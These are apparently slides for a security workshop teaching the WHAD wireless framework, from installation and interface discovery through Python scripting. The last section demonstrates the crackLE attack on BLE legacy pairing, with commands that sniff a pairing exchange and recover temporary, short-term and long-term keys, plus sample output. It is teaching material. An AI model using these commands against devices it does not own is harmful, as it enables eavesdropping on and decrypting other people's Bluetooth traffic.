

<!-- _paginate: skip -->

<style>

img[alt~="center"] {
  display: block;
  margin: 0 auto;
}
</style>

# BLE Hacking 101 with WHAD

##### Romain Cayre, Damien Cauquil 


---

# Who are we ? 

**Romain Cayre**, EURECOM
  - maintainer of *Mirage*, a popular BLE swiss-army tool
  - loves *cross-protocol attacks* (*Wazabee*)

##

**Damien Cauquil**, Quarkslab
  - maintainer of *Btlejack*, another BLE swiss-army tool
  - loves reversing stuff, including *embedded systems*

---

# Agenda

- **What is WHAD ?**
- **Discovering BLE devices**
- **Interacting with a BLE device**
- **Creating fake BLE devices**
- **Breaking BLE legacy pairing**
- **Python scripting**


---

# Workshop goals

- Introduce WHAD, present its features and why it’s cool !
- Demonstrate the basic BLE tools to:
  - handle WHAD interfaces
  - discover BLE devices
  - interact with BLE devices
  - emulate fake BLE devices
- Teach simple Python scripting with WHAD
- Let you experiment with the framework and tools
---

<!-- _class: chapter -->

# What is WHAD ?

---

# A tool for everyone 


---

# Global overview

<h4> WHAD includes:</h4> 
<ul style="font-size:0.8em">
  <li> An harmonised Host / RF Hardware communication protocol</li>
  <li> A python library handling multiple wireless protocols</li>
    <li> Multiple user-friendly CLI tools that can be chained together</li>
  <li> A set of firmwares for various hardware devices</li>

</ul>


---

# Core concepts


<ul>
  <li> Offload complexity as much as possible
    <ul style="font-size:0.6em">
      <li>Protocol stacks implemented on host side</li>
      <li><strong>Hardware does hardware stuff:</strong> timing-critical tasks, RF</li>
    </ul>
  </li>
</ul>

---

# Core concepts


<ul>
  <li> Generic tools to perform generic tasks/attacks
    <ul style="font-size:0.6em">
      <li>Tools work on multiple protocols</li>
      <li>Some attacks are basically carried out almost the same way no matter the protocol: <br/><strong> → based on primitives infered from our systematization of wireless attacks</strong> </li>
    <li>Common and standardized file format (PCAP) </li>
    <li>Generic tools can be chained to create complex tools (inspired by UNIX philosophy)</li>
  </ul>
  </li>


---

# Core concepts


<ul>
  <li> Compatible hardware
        <ul style="font-size:0.6em">
      <li>Hardware is discoverable and exposes its capabilities </li>
      <li>Generic and custom tools can tune attacks/tasks to hardware </li>
      <li>Anyone can develop a compatible firmware <strong>without bothering about tools</strong> </li>
    </ul>
  </li>
</ul>

---

# Supported protocols


---

# WHAD protocol


---

# Connectors and interfaces


---

# Tool chaining


---

# Python scripting

<ul style="font-size:0.8em"><li>WHAD provides an user-friendly Python API to implement your own custom scripts</li></ul>


---

## Setup
---

# Hardware requirements

<ul style="font-size:0.8em">
<li> Computer or VM running a <strong>Linux</strong> operating system</li>
<li> nRF52 USB Dongle with <strong>ButteRFly</strong> installed</li>
<li> USB Bluetooth Low Energy <strong>dongle</strong> or <strong>embedded Bluetooth adapter</strong></li>
</ul>


---

# Resources

- Online repository with examples and code templates:
[https://github.com/whad-team/whad-workshop](https://github.com/whad-team/whad-workshop)


- Virtual machine image:
[https://drive.google.com/file/d/10wKAWlcy5zyRrwxYV8BikEAq5SCYjIOP/view?usp=sharing](https://drive.google.com/file/d/10wKAWlcy5zyRrwxYV8BikEAq5SCYjIOP/view?usp=sharing)

---

# Instaling WHAD locally

- Installing whad-client is as simple as running:
```
$ mkdir whad-workshop && cd whad-workshop
$ python3 -m venv venv
$ source venv/bin/activate
(venv) $ pip install whad
(venv) $ winstall --rules all
```
---

# Flashing ButteRFly firmware
<br />
<ul style="font-size:0.8em">
<li>
Set the dongle in <b>programming mode</b> by pressing the side button <i>RESET</i>:

</li>
<li> Run the following command:
<pre>
<code> $ winstall --flash butterfly
</code>
</pre>

</ul>

---

# WHAD interfaces

<ul style="font-size:1em">
<li> <code>wup</code> / <code>whadup</code> is the easiest way to detect compatible interfaces on your system !
  
<ul style="font-size:0.8em">
<li>Automatically detect compatible interfaces (USB and internal)</li>
<li>Query any interface to determine its capabilities</li>
<li>Show capabilities and explain what the device is capable of</li></ul>
</ul>

- List available interfaces:
```
$ wup
```
- Display the capabilities of a specific interface *"uart0"*:
```
$ wup uart0
```
---

# WHAD interfaces


---

# whadup / wup


<div style="width:80%;position:absolute; top:100px; left:200px;">
Use <code>wup</code> / <code>whadup</code> to discover the capabilities and available commands of your nRF52840 dongle 


</div>


---

## Breaking BLE legacy pairing

---

# BLE pairing vs bonding

- Bluetooth Low Energy **pairing** allows to negotiate security keys (e.g., encryption) to encrypt and authenticate the link

- Bluetooth Low Energy **bonding** is a variant of BLE pairing where the devices will store the distributed keys for later use

---

# BLE pairing overview




---

# Legacy pairing - passkey entry


---

# CrackLE

- Legacy Pairing is known to be vulnerable to a key recovery attack: **crackLE**, that allows an attacker to guess or very quickly brute force the TK (Temporary Key). 
- With the TK and other data collected from the pairing process, the STK (Short Term Key) and later the LTK (Long Term Key) can be collected.
- With the STK and LTK, all communications between the Central and the Peripheral can be decrypted.

---

# CrackLE attack with WHAD


<ul>
<li> Sniffing the pairing process and the encrypted traffic:
</li>

```
$ wsniff -i uart0 ble -f | wdump pairing.pcap
```
<li> Recovering the Short Term Key (STK):
</li>

```
$ wplay pairing.pcap | wanalyze legacy_pairing_cracking
[✓] legacy_pairing_cracking → completed
  - tk:  00000000000000000000000000000000
  - stk:  11223344112233441122334411223344
```

---

# CrackLE attack with WHAD


<ul>

<li> Recovering the distributed keys (LTK, IRK, CSRK):
</li>

```
$ wplay --flush pairing.pcap -d -k 11223344112233441122334411223344 | wanalyze
[...]
[✓] ltk_distribution → completed
  - ltk:  2867a99de17e3548cc17cf16ef96050e
  - rand:  38a7dcd10a1a93c6
  - ediv:  29507

[✓] irk_distribution → completed
  - address:  74:da:ea:91:47:e3
  - irk:  13c3a68f113b764cc8e73f55fc52c002

[✓] csrk_distribution → completed
  - csrk:  c3062f93c91eef96354edcd70a1a0306
[...]
```

---

# wanalyze


<div style="width:80%;position:absolute; top:100px; left:200px;">
Use <code>wplay</code> and <code>wanalyze</code> to recover the Long Term Keys distributed in the following PCAP:   
<br /><br />
<a style="font-size:0.5em" href="https://github.com/whad-team/whad-client/raw/refs/heads/main/whad/resources/pcaps/ble_pairing.pcap"> https://github.com/whad-team/whad-client/raw/refs/heads/main/whad/resources/pcaps/ble_pairing.pcap</a>
</div>

---

## Q/A time


---


## Thank you !
